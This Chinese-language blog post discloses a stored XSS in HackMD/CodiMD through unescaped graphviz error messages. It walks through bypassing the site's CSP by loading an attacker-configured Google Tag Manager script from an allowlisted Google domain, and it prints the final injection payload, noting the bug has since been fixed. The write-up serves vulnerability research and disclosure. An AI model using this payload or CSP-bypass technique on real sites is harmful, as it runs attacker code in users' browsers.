 HackMD Stored XSS & Bypass CSP with Google Tag Manager
===

前一陣子 Orange 發表了一篇 [A Wormable XSS on HackMD!
](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)

剛好在那之前有跟著研究了一下這個漏洞，學習到了很多有關於 CSP 繞過的奇技淫巧

當然這次利用到的 `Google Tag Manager` 我覺得也是一個蠻有趣的繞過方式，在後面也會藉此順便聊聊整個測試的思路以及最後怎麼利用 Google Tag Manager 繞過 CSP 並最終觸發 Stored XSS 

比較有趣的是，上次在 Review `CodiMD` 的 Repo 之後，我本來以為已經沒有相較之下比較高風險的弱點了，但沒想到藉由夥伴意外的發現，重新仔細 Review 原始碼之後，竟然還發現有幾個已經存在兩年多的程式碼都沒有妥善的 escape，也就因此導致本次的 Stored XSS，這也告訴我們漏洞總會藏在我們意想不到的地方，並不是我們單方面認為沒漏洞就沒有的 XDDD


## 漏洞成因

最初會注意到這個漏洞，是因為朋友 HexRabbit 約在 3 月底發現同學利用 `graphviz` 語法撰寫 flowchart 時，在語法錯誤的情況下會額外跳出一個含有錯誤訊息的小方塊，並意外發現錯誤訊息中的 tag 並沒有被 filter，而且可以插入任意的 html，錯誤訊息如下方範例: 

![](https://i.imgur.com/5RjrFH3.png)

我們仔細追一下[原始碼](https://github.com/hackmdio/codimd/blob/1434cdb6b2e89cc771913ea1bd2c44779206196c/public/js/extra.js#L360)，會發現處理 graphviz 的部分為以下程式碼：
```=javascript=1
  // graphviz
  var graphvizs = view.find('div.graphviz.raw').removeClass('raw')
  graphvizs.each(function (key, value) {
    try {
      var $value = $(value)
      var $ele = $(value).parent().parent()

      var graphviz = Viz($value.text())
      if (!graphviz) throw Error('viz.js output empty graph')
      $value.html(graphviz)

      $ele.addClass('graphviz')
      $value.children().unwrap().unwrap()
    } catch (err) {
      $value.unwrap()
      $value.parent().append('<div class="alert alert-warning">' + err + '</div>')
      console.warn(err)
    }
})
```

我們可以發現在 `$value.parent().append('<div class="alert alert-warning">' + err + '</div>')` 的地方，當發生錯誤時會直接 append `err` 訊息到 html 之中，完全沒有做任何的 escape，換句話說，我們只要想辦法在 error message 塞入惡意的 HTML 程式碼，就可以去任意執行 JavaScript

另外一個部分就是，在測試的過程中，我發現這個 Stored XSS 還是有所限制的，最大長度只能輸入到 82 個字，再多就會被吃掉，也就是我們還要想辦法在 82 個字以內完成任意 JavaScript 的執行（其實一開始想到這邊我就有點卡住了，因為繞 CSP 構造的 Gadgets 或 jsonp 照經驗來說都會超過這個長度...）

## CSP Bypass

雖然我們得到了一個 Stored XSS，但是沒有預期的彈窗，我們從 Console 以及過往的經驗可以得知 HackMD 是有配置 CSP(Content Security Policy) 來阻擋未經授權的 JavaScript 執行的！而現階段的 CSP 代碼如下：

```
script-src 'self' vimeo.com https://gist.github.com www.slideshare.net 'unsafe-eval' 
https://assets.hackmd.io https://www.google.com https://apis.google.com https://docs.google.com 
https://www.dropbox.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 
https://stats.g.doubleclick.net https://secure.quantserve.com https://rules.quantcount.com https://pixel.quantserve.com 
https://js.driftt.com https://embed.small.chat https://static.small.chat https://www.googletagmanager.com 
https://cdn.ravenjs.com https://browser.sentry-cdn.com 'nonce-6fea8a60-c394-470c-86bd-73259adc065d' 
'sha256-EtvSSxRwce5cLeFBZbvZvDrTiRoyoXbWWwvEVciM5Ag=' 'sha256-NZb7w9GYJNUrMEidK01d3/DEtYztrtnXC/dQw7agdY4=' 
'sha256-L0TsyAQLAc0koby5DCbFAwFfRs9ZxesA+4xg0QDSrdI='; img-src * data:; style-src 'self' 'unsafe-inline' 
https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com 
https://fonts.gstatic.com https://*.disquscdn.com https://static.small.chat; font-src 'self' data: 
https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com; object-src *; media-src *; 
frame-src *; child-src *; connect-src *; base-uri 'none'; form-action 'self' https://www.paypal.com; upgrade-insecure-requests
```

雖然 `unsafe-eval` 還在，但最難過的是 `https://cdnjs.cloudflare.com` 已經從 CSP 被拿掉了，所以我們不能使用這個方便的 domain 來 exploit，那還有什麼招可以使用呢？我們還是先把這條 CSP Rule 擺上 Google 提供的 [CSP Evaluator](https://csp-evaluator.withgoogle.com/) 來檢核

![](https://i.imgur.com/65mrIIH.png)

我們可以發現網站很快地列出了一些高風險的 domain 提供測試，但我們要如何快速的知道這些 domain 該如何利用呢？

我們可以直接到 Google 在 GitHub 上的專案 `csp-evaluator` 上面尋找，於是我們透過[此專案](https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/json/jsonp.json)在 `whitelist_bypasses/json/jsonp.json` 目錄下的檔案，很快的知道其中三個 domain 的 jsonp 該如何使用：

* Viemo 
    * 長度過長，而且無法有效地控制內容
    * https://vimeo.com/api/oembed.json?format=json&callback=alert&url=https://vimeo.com/286898202

* www.google.com
    * 沒找到有效控制內容的方式
    * https://www.google.com/tools/feedback/escalation-options?callback=alert

* disqus
    * 無法有效控制內容
    * https://links.services.disqus.com/api/ping?format=jsonp&key=cfdfcf52dffd0a702a61bad27507376d


以上這三個 domain 在測試過後都無法有效利用（也可能是我沒有找到正確的方法，還請各位多多指教），而另外兩個為 Google Tag Manager 的服務，分別是 `www.googletagmanager.com` 以及 `www.google-analytics.com`，之前查詢資料的過程中，曾經看到 kobo 的這篇部落格[Content Security Policy Level 3におけるXSS対策](https://inside.pixiv.blog/kobo/5137)

![csp](https://inside.pixiv.blog/wp-content/uploads/2018/10/csp-bypass-chart.png)

CSP rule 如果在 `script-src` 同時有 `www.google-analytics.com` 以及 `unsafe-inline` 的話，就可以執行任意的 JavaScript，到這裡還不是很確定是否可以 Exploit，於是我們馬上動手試試，首先開啟 Google Tag Manager，設定一個變數，並放入你想要執行的 JavaScript

![](https://i.imgur.com/K863Bl0.png)

接著開啟代碼設定，將這個變數放入任一位置（只要讓變數載入就好），並設定觸發事件

![](https://i.imgur.com/MtfzBku.png)

產生完畢後會得到屬於你的 GA link：
* https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V

最後只要放入原本就有支援 GA 的 HackMD，我們就會發現 JavaScript 程式碼被執行
至此，我們就成功繞過 CSP 以及能夠執行任意長度的代碼了！以下是最終代碼：

```
```graphviz
graph<<script src="https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V">

```

Demo 影片如下： https://www.youtube.com/watch?v=m8Q9hX9jBFM

## 後記

當看到 `unsafe-eval` 的時候，其實第一篇想到的是 [Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)，但最尷尬的是這次的 XSS 限制 82 bytes，串起一個 Gadgets 很容易就超過了，所以一開始就沒有往這個方向挖掘 XD

另外這個漏洞已經修復了，可以參考此 [Pull Request](https://github.com/hackmdio/codimd/pull/1193)

最後感謝 [@HexRabbit](https://github.com/HexRabbit/) 發現這個 XSS 的注入點，讓我們能發現好玩的方法 Bypass CSP！
